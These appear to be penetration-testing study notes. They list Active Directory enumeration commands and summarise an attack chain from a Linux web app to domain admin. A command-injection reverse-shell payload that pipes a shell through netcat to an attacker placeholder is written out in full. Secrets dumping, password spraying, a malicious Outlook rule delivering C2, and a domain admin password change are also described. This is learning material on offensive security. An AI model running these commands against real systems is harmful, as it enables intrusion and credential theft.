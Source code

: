 Identify admin creds in "SYSVOL". 

> get-GPPPassword on a compromised host.

## AD Forest Enumeration

> get-ADForest

## AD Domain Informaion

> Get-NetDomain

# Summary of "Moving from Linux to domain admin through unprivileged users and an ACL path

1. Launch metasploit

2. HTTP version scan on web app server

3. Perform directory busting with dirb.

4. Found admin directory that allowed for command injection and piping command.

5. Established a reverse shell, made a mknod in /tmp/bagpipe,

> ?path=/etc/ | /bin/sh 0</tmp/backpipe | nc <ip address> <port> then had a nc listner on the atacker machine.

6. performed uname -a to get kernel version. Found a kernel race condition privilege escaltion.

7. Downloaded exploit to victim machines /tmp dir. 

8. Compiled it with gcc and chmod +x to make it executable.

9. Dumped secrets.tdb contents with

> tdbdump /var/lib/samba/private/secrets.tdb

10. kinit ubuntu@els.local to get kerberos ticket.

11. smbclient -k -L //user8.els.local - uses the ticket that was acquired to login.

12. Acquired a client certs share.

13. Lateral movement with password spraying. They created a user list and did a bash script with rpcclient to get into a machine and check if credentials worked.

14. used impacket wimexec.py to gain access.

15. Used Powershell empire to create a batch file for c2 work.

16. Downloaded to a machine via a malicious outlook email rule.

17. Enumerated device with powershell empire.

18. Loaded malicious meterpreter payload via powershell empire.

19. Changed domain admin password with powershell in meterpreter

20. used wmiexec to traverse the network.

